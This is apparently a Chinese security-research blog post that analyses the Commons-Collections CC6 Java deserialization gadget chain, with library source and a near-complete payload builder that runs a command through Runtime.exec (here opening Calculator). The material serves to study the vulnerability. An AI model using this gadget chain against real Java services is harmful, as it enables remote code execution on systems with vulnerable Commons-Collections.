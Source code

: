 CC6相比于CC1，解决的是jdk版本问题，因为在jdk8u71以后，AnnotationInvocationHandler的readObject发生了改变，导致CC1在jdk8u71以后的版本无法使用，而CC6没有jdk版本限制，只要Commons-Collections小于等于3.2.1就能用。

先来看下CC6的利用链：
```java
java.io.ObjectInputStream.readObject()
    java.util.HashSet.readObject()
        java.util.HashMap.put()
        java.util.HashMap.hash()
            org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
            org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                org.apache.commons.collections.map.LazyMap.get()  // 从这里开始，跟CC1都是一样的。
                    org.apache.commons.collections.functors.ChainedTransformer.transform()
                    org.apache.commons.collections.functors.InvokerTransformer.transform()
                    java.lang.reflect.Method.invoke()
                        java.lang.Runtime.exec()
```
我们从TiedMapEntry.getValue开始看，他调用了get方法：
```java
public Object getValue() {
    return this.map.get(this.key);
}
```
这里很好理解，this.map为LazyMap即可。

接着往上看TiedMapEntry.hashCode：
```java
public int hashCode() {
    Object value = this.getValue(); // 在这里
    return (this.getKey() == null ? 0 : this.getKey().hashCode()) ^ (value == null ? 0 : value.hashCode());
}
```
不多说，继续往上看HashMap，可以看到put调用了hash，这个很简单，HashMap是数组➕链表的结构，其中key处于数组中的Node中，
```java
transient Node<K,V>[] table;
```
Node就是HashMap中的一个内部类，继承自Entry：
```java
static class Node<K,V> implements Map.Entry<K,V> {
    final int hash;
    final K key;
    V value;
    Node<K,V> next;

    Node(int hash, K key, V value, Node<K,V> next) {
        this.hash = hash;
        this.key = key;
        this.value = value;
        this.next = next;
    }
    ...
}
```

value处于数组中Node对应的链表中，每次调用put即为新增元素，hashMap会调用hash也即hashCode来计算hash。

代码如下：
```java
public V put(K key, V value) {
    return putVal(hash(key), key, value, false, true);
}

static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```

接下来再看HashSet的readObject：
```java
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    // Read in any hidden serialization magic
    s.defaultReadObject();

    // Read capacity and verify non-negative.
    int capacity = s.readInt();
    if (capacity < 0) {
        throw new InvalidObjectException("Illegal capacity: " +
                                            capacity);
    }

    // Read load factor and verify positive and non NaN.
    float loadFactor = s.readFloat();
    if (loadFactor <= 0 || Float.isNaN(loadFactor)) {
        throw new InvalidObjectException("Illegal load factor: " +
                                            loadFactor);
    }

    // Read size and verify non-negative.
    int size = s.readInt();
    if (size < 0) {
        throw new InvalidObjectException("Illegal size: " +
                                            size);
    }

    // Set the capacity according to the size and load factor ensuring that
    // the HashMap is at least 25% full but clamping to maximum capacity.
    capacity = (int) Math.min(size * Math.min(1 / loadFactor, 4.0f),
            HashMap.MAXIMUM_CAPACITY);

    // 这里之所以会做一个LinkedHashSet判断，是因为LinkedhashSet继承自HashSet，不用管，回头直接创建HashSet就好了
    map = (((HashSet<?>)this) instanceof LinkedHashSet ?
            new LinkedHashMap<E,Object>(capacity, loadFactor) :
            new HashMap<E,Object>(capacity, loadFactor));

    // Read in all elements in the proper order.
    for (int i=0; i<size; i++) {
        @SuppressWarnings("unchecked")
            E e = (E) s.readObject();
        map.put(e, PRESENT);  // 这里调用put方法
    }
}
```

到这里可以看到CC6本质上只是在AnnotationInvocationHandler无法使用以后重新找了一条利用路径。

有了上面的铺垫，我们就可以轻松构造payload，首先创建一个HashSet，然后put一个TiedMapEntry对象进去，value随意，然后将其this.map设为LazyMap对象，这个LazyMap对象的this.factory应该是恶意ChainedTransformer：
```java
Transformer[] fakeTransformers = {new ConstantTransformer(1)};
Transformer[] transformers = {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open /Applications/Calculator.app"}),
        new ConstantTransformer(1)
};
ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
HashMap hashMap = new HashMap();
Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);
TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, 1);

HashSet hashSet = new HashSet();
hashSet.add(tiedMapEntry);

Field iTransformers = chainedTransformer.getClass().getDeclaredField("iTransformers");
iTransformers.setAccessible(true);
Field modifiers = iTransformers.getClass().getDeclaredField("modifiers");
modifiers.setAccessible(true);
modifiers.setInt(iTransformers,iTransformers.getModifiers()& ~Modifier.FINAL);
iTransformers.set(chainedTransformer,transformers);
```
但这样的hashSet我们拿去反序列化时却发现无法执行命令，这时调试就会发现，在LazyMap.get方法中对key进行校验，只有当this.map中不存在这个key时，才会进一步调用this.factory.transform：
```java
public Object get(Object key) {
    if (!this.map.containsKey(key)) {
        Object value = this.factory.transform(key);
        this.map.put(key, value);
        return value;
    } else {
        return this.map.get(key);
    }
}
```
这时候我们会产生疑惑，在我们创建TiedMapEntry时，确实定义了key，但为什么会影响到LazyMap？实际上，在创建TiedMapEntry时：
TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, 1);
就会自动执行了类似：`this.map.put(key,value)`，这很难解释，我尝试调试，始终无法捕获这关键的瞬间。
不过，我们可以做一个简单的实验来证明，首先创建一个lazyMap
```java
Map lazymap = LazyMap.decorate(new HashMap(), new ConstantTransformer(1));
lazymap.get(1);
lazymap.get(1);
```
我们把LazyMap#get下断点，然后调试，会发现，在第一次get的时候，this.map为空，因此会进入if逻辑，于是执行this.map.put，等到第二次get的时候，就直接进入else逻辑了。这很符合逻辑。
接下来再写一个demo：
```java
Map lazymap = LazyMap.decorate(new HashMap(), new ConstantTransformer(1));
TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, 1);
lazymap.get(1);
```
还是对`LazyMap#get`下断点，这时我们调试会发现，`new TiedMapEntry`并没有触发任何断点，但在lazymap.get的时候，this.map已经不为空了，仿佛是某种隐式的调用。

P牛在《java安全漫谈-12》中提到这个事情，他的解释是因为HashSet在add时会调用LazyMap#get，是这样的，调用链如下：
```java
HashSet#add()
    -> HashMap#put() -> hash() 
        -> TiedMapEntry#hashCode() -> getValue()
            -> LazyMap#get()
```

因此实际上，在序列化前，`LazyMap#get`就会被调用两次，一次是实例化TiedMapEntry时的隐式调用，一次是`HashSet#add`时的正常调用。这两次都避免不了。

get只要被调用，就会将key写入`this.map`。如果不处理，反序列化时，就不会调用`this.factory.transform`了。

索性解决办法很简单，直接从lazyMap中remove这个键值对即可：
```java
lazyMap.remove(1);
```

到这里分析完毕，完整代码见于`GenCC6.java``

